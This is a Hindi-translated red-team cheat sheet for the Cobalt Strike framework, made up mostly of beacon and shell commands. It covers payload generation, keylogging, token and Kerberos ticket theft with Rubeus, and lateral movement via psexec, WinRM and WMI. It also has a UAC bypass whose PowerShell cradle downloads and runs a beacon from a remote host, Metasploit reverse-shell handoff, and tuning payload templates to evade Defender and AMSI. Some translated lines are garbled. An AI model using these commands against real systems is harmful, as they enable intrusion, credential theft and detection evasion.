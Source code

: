 # Cobalt Strike

### सुनवाईकर्ता

### सी2 सुनवाईकर्ता

`Cobalt Strike -> सुनवाईकर्ता -> जोड़ें/संपादित करें` फिर आप कहां सुनना चाहते हैं, किस प्रकार के बीकन का उपयोग करना चाहते हैं (http, dns, smb...) और अधिक का चयन कर सकते हैं।

### पीयर2पीयर सुनवाईकर्ता

इन सुनवाईकर्ताओं के बीकनों को सी2 के साथ सीधे बातचीत करने की आवश्यकता नहीं होती है, वे इसके माध्यम से इससे संवाद कर सकते हैं।

`Cobalt Strike -> सुनवाईकर्ता -> जोड़ें/संपादित करें` फिर आपको TCP या SMB बीकन का चयन करना होगा

* **TCP बीकन चयनित पोर्ट में एक सुनवाईकर्ता सेट करेगा**। एक TCP बीकन से कनेक्ट करने के लिए दूसरे बीकन से `connect <ip> <port>` कमांड का उपयोग करें
* **smb बीकन चयनित नाम के पाइपमें सुनेगा**। SMB बीकन से कनेक्ट करने के लिए आपको `link [target] [pipe]` कमांड का उपयोग करना होगा।

### पेलोड उत्पन्न करें और होस्ट करें

#### फ़ाइलों में पेलोड उत्पन्न करें

`हमले -> पैकेज ->`&#x20;

* **`HTMLApplication`** HTA फ़ाइलों के लिए
* **`MS Office Macro`** मैक्रो के साथ एक ऑफ़िस दस्तावेज़ के लिए
* **`Windows Executable`** .exe, .dll या सेवा .exe के लिए
* **`Windows Executable (S)`** एक **stageless** .exe, .dll या सेवा .exe के लिए (स्टेजलेस स्टेज्ड से बेहतर है, कम IoC)

#### पेलोड उत्पन्न करें और होस्ट करें

`हमले -> वेब ड्राइव-बाई -> स्क्रिप्टेड वेब वितरण (S)` इससे एक स्क्रिप्ट/एक्सीक्यूटेबल उत्पन्न होगा जो कोबाल्ट स्ट्राइक से बीकन को डाउनलोड करने के लिए होगा, जैसे: bitsadmin, exe, powershell और python

#### पेलोड होस्ट करें

यदि आपके पास पेश करने के लिए वेब सर्वर में रखने की फ़ाइल है, तो केवल `हमले -> वेब ड्राइव-बाई -> फ़ाइल होस्ट` पर जाएं और होस्ट करने के लिए फ़ाइल का चयन करें और वेब सर्वर कॉन्फ़िगरेशन करें।

### बीकन विकल्प

<pre class="language-bash"><code class="lang-bash"># स्थानीय .NET बाइनरी को निष्पादित करें
execute-assembly &#x3C;/path/to/executable.exe>

# स्क्रीनशॉट
printscreen    # प्रिंटस्क्रीन विधि के माध्यम से एकल स्क्रीनशॉट लें
screenshot     # एकल स्क्रीनशॉट लें
screenwatch    # डेस्कटॉप के नियमित अंतराल पर स्क्रीनशॉट लें
## उन्हें देखने के लिए व्यू -> स्क्रीनशॉट पर जाएं

# कीलॉगर
keylogger [pid] [x86|x64]
## कुंजीस्पर्श को देखने के लिए व्यू > कीस्ट्रोक्स पर जाएं

# पोर्टस्कैन
portscan [pid] [arch] [targets] [ports] [arp|icmp|none] [max connections] # दूसरे प्रक्रिया में पोर्टस्कैन क्रिया इंजेक्ट करें
portscan [targets] [ports] [arp|icmp|none] [max connections]

# पावरशेल
# पावरशेल मॉड्यूल आयात करें
powershell-import C:\path\to\PowerView.ps1
powershell &#x3C;यहां पावरशेल कमांड लिखें>

# उपयोगकर्ता अनुकरण
## क्रेडेंशियल के साथ टोकन उत्पन्न करें
make_token [DOMAIN\user] [password] # नेटवर्क में एक उपयोगकर्ता के रूप में अनुकरण करने के लिए टोकन बनाएं
ls \\computer_name\c$ # एक कंप्यूटर में C$ तक पहुँचने के लिए उत्पन्न टोकन का उपयोग करने का प्रयास करें
rev2self # make_token के साथ उत्पन्न टोकन का उपयोग करना बंद करें
## make_token का उपयोग ईवेंट 4624 उत्पन्न करता है: एक खाता सफलतापूर्वक लॉग ऑन हुआ था। यह ईवेंट विंडोज डोमेन में बहुत सामान्य है, लेकिन लॉगऑन प्रकार पर फ़िल्टर करके इसे संक्षेप में किया जा सकता है। जैसा कि पहले कहा गया है, इसमें LOGON32_LOGON_NEW_CREDENTIALS का उपयोग होता है जो प्रकार 9 है।

# UAC बाईपास
elevate svc-exe &#x3C;सुनवाईकर्ता>
elevate uac-token-duplication &#x3C;सुनवाईकर्ता>
runasadmin uac-cmstplua powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://10.10.5.120:80/b'))"

## प्रक्रिया से टोकन चुरा लें
## make_token की तरह, लेकिन प्रक्रिया से
## SYSTEM से टिकट पास करें
## टिकट के साथ एक नया प्रक्रिया उत्पन्न करें
execute-assembly C:\path\Rubeus.exe asktgt /user:&#x3C;USERNAME> /domain:&#x3C;DOMAIN> /aes256:&#x3C;AES KEY> /nowrap /opsec /createnetonly:C:\Windows\System32\cmd.exe
## उस प्रक्रिया से टोकन चुराएं
steal_token &#x3C;pid>

## टिकट + टिकट पास निकालें
### टिकट सूची बनाएं
execute-assembly C:\path\Rubeus.exe triage
### luid द्वारा दिलचस्प टिकट डंप करें
execute-assembly C:\path\Rubeus.exe dump /service:krbtgt /luid:&#x3C;luid> /nowrap
### नई लॉगऑन सत्र बनाएं, luid और processid का ध्यान रखें
execute-assembly C:\path\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe
### उत्पन्न लॉगऑन सत्र में टिकट डालें
execute-assembly C:\path\Rubeus.exe ptt /luid:0x92a8c /ticket:[...base64-ticket...]
### अंत में, उस नई प्रक्रिया से टोकन चुराएं
steal_token &#x3C;pid>

# लैटरल मूवमेंट
## यदि टोकन बनाया गया है तो उसका उपयोग किया जाएगा
jump [method] [target] [listener]
## विधियाँ:
## psexec                    x86   सेवा का उपयोग करके एक सेवा EXE आर्टिफैक्ट चलाने के लिए
## psexec64                  x64   सेवा का उपयोग करके एक सेवा EXE आर्टिफैक्ट चलाने के लिए
## psexec_psh                x86   सेवा का उपयोग करके एक PowerShell वन-लाइनर चलाने के लिए
## winrm                     x86   WinRM के माध्यम से एक PowerShell स्क्रिप्ट चलाएं
## winrm64                   x64   WinRM के माध्यम से एक PowerShell स्क्रिप्ट चलाएं

remote-exec [method] [target] [command]
## विधियाँ:
<strong>## psexec                          सेवा नियंत्रण प्रबंधक के माध्यम से रिमोट एक्जीक्यूट करें
</strong>## winrm                           WinRM के माध्यम से रिमोट एक्जीक्यूट करें (PowerShell)
## wmi                             WMI के माध्यम से रिमोट एक्जीक्यूट करें

## WMI के साथ एक बीकन निष्पादित करने के लिए (यह जंप कमांड में नहीं है) बस बीकन अपलोड करें और इसे निष्पादित करें
beacon> upload C:\Payloads\beacon-smb.exe
beacon> remote-exec wmi srv-1 C:\Windows\beacon-smb.exe


# Metasploit को सत्र पास करें - लिस्टनर के माध्यम से
## Metaploit होस्ट पर
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_http
msf6 exploit(multi/handler) > set LHOST eth0
msf6 exploit(multi/handler) > set LPORT 8080
msf6 exploit(multi/handler) > exploit -j

## Cobalt पर: Listeners > Add और Payload को Foreign HTTP पर सेट करें। Host को 10.10.5.120, Port को 8080 सेट करें और Save पर क्लिक करें।
beacon> spawn metasploit
## आप केवल विदेशी लिस्टनर के साथ x86 Meterpreter सत्र उत्पन्न कर सकते हैं।

# Metasploit सत्र को cobalt strike को पास करें - शेलकोड इंजेक्शन के माध्यम से
## Metasploit होस्ट पर
msfvenom -p windows/x64/meterpreter_reverse_http LHOST=&#x3C;IP> LPORT=&#x3C;PORT> -f raw -o /tmp/msf.bin
## msfvenom चलाएं और multi/handler लिस्टनर को तैयार करें

## बिन फ़ाइल को cobalt strike होस्ट में कॉपी करें
ps
shinject &#x3C;pid> x64 C:\Payloads\msf.bin #Inject metasploit shellcode in a x64 process

# Metasploit सत्र को cobalt strike को पास करें
## निर्मित Beacon शेलकोड उत्पन्न करें, Attacks > Packages > Windows Executable (S) पर जाएं, वांछित लिस्टनर का चयन करें, आउटपुट प्रकार के रूप में Raw का चयन करें और Use x64 payload का चयन करें।
## Metasploit में post/windows/manage/shellcode_inject का उपयोग करें जिससे उत्पन्न किया गया cobalt srike shellcode इंजेक्ट होता है


# पिवटिंग
## टीमसर्वर में एक सॉक्स प्रॉक्सी खोलें
beacon> socks 1080

# SSH कनेक्शन
beacon> ssh 10.10.17.12:22 username password</code></pre>

## AVs से बचें

### Artifact Kit

आमतौर पर `/opt/cobaltstrike/artifact-kit` में आपको कोबाल्ट स्ट्राइक द्वारा उत्पन्न बाइनरी बीकन के कोड और पूर्व-संकलित टेम्पलेट (`/src-common` में) मिलेंगे।

[ThreatCheck](https://github.com/rasta-mouse/ThreatCheck) का उपयोग उत्पन्न बैकडोर (या केवल कंपाइल किए गए टेम्पलेट) के साथ करके आप यह जांच सकते हैं कि डिफेंडर को क्या ट्रिगर कर रहा है। आमतौर पर यह एक स्ट्रिंग होती है। इसलिए आप बैकडोर उत्पन्न कर रहे कोड में उस स्ट्रिंग को नहीं दिखने देने के लिए संशोधित कर सकते हैं।

कोड को संशोधित करने के बाद उसी निर्देशिका से `./build.sh` चलाएं और `dist-pipe/` फ़ोल्डर को Windows क्लाइंट में `C:\Tools\cobaltstrike\ArtifactKit` में कॉपी करें।
```
pscp -r root@kali:/opt/cobaltstrike/artifact-kit/dist-pipe .
```
यह न भूलें कि आपको विनाशकारी स्क्रिप्ट `dist-pipe\artifact.cna` लोड करना होगा ताकि Cobalt Strike को हमारे द्वारा चयनित डिस्क संसाधनों का उपयोग करने के लिए नहीं करना पड़े।

### संसाधन किट

संसाधन किट फ़ोल्डर में Cobalt Strike के स्क्रिप्ट-आधारित पेलोड के टेम्पलेट होते हैं, जिनमें PowerShell, VBA और HTA शामिल हैं।

टेम्पलेट के साथ [ThreatCheck](https://github.com/rasta-mouse/ThreatCheck) का उपयोग करके आप यह जान सकते हैं कि डिफ़ेंडर (इस मामले में AMSI) को क्या पसंद नहीं है और उसे संशोधित कर सकते हैं:
```
.\ThreatCheck.exe -e AMSI -f .\cobaltstrike\ResourceKit\template.x64.ps1
```
डिटेक्ट की गई लाइनों को संशोधित करके एक टेम्पलेट बनाया जा सकता है जो पकड़ा नहीं जाएगा।

याद रखें कि आपको एग्रेसिव स्क्रिप्ट `ResourceKit\resources.cna` लोड करना नहीं भूलना चाहिए ताकि कोबाल्ट स्ट्राइक को बताया जा सके कि हमें डिस्क से रिसोर्सेज़ का उपयोग करना है और न कि लोड किए गए रिसोर्सेज़।
```bash
cd C:\Tools\neo4j\bin
neo4j.bat console
http://localhost:7474/ --> Change password
execute-assembly C:\Tools\SharpHound3\SharpHound3\bin\Debug\SharpHound.exe -c All -d DOMAIN.LOCAL



# Change powershell
C:\Tools\cobaltstrike\ResourceKit
template.x64.ps1
# Change $var_code -> $polop
# $x --> $ar
cobalt strike --> script manager --> Load --> Cargar C:\Tools\cobaltstrike\ResourceKit\resources.cna

#artifact kit
cd  C:\Tools\cobaltstrike\ArtifactKit
pscp -r root@kali:/opt/cobaltstrike/artifact-kit/dist-pipe .


```

